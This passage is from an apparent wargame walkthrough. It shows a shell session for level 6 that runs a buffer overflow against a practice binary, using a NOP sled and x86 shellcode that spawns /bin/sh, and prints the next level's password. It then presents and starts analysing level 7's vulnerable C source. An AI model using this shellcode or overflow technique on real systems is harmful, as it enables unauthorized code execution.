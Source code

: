 ```cpp

    greetuser(user);
}
```

```
$ export LANG=fr
$ export shellcode=`python -c 'print "\x90"*80+"\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80"'`
$ /levels/level06 `python -c 'print "ving"*16, "\x90"*26+"\x0c\xff\xff\xbf"'`
```

```
$ cat /home/level7/.pass
U3A6ZtaTub14VmwV
```

# 7. Level 7

```
$ cat /levels/level07.c
```

```cpp
#include <stdio.h>
#include <string.h>
#include <unistd.h>

int main(int argc, char **argv)
{
    int count = atoi(argv[1]);
    int buf[10];

    if(count >= 10)
        return 1;

    memcpy(buf, argv[2], count * sizeof(int));

    if(count == 0x574f4c46) {
        printf("WIN!\n");
        execl("/bin/sh", "sh", NULL);
    } else
        printf("Not today son\n");

    return 0;
}
```

We need to pass a number in that is less than `10`, but is big enough to allow us to overflow `buf` so that we can modify the value of `count`.
The data that’s written to `buf` is only allowed to be `count * sizeof(int)` in size. 

What’s interesting about this is that `sizeof(int)` on a 32-bit machine is 4, which is effectively a `SHL 2` operation.
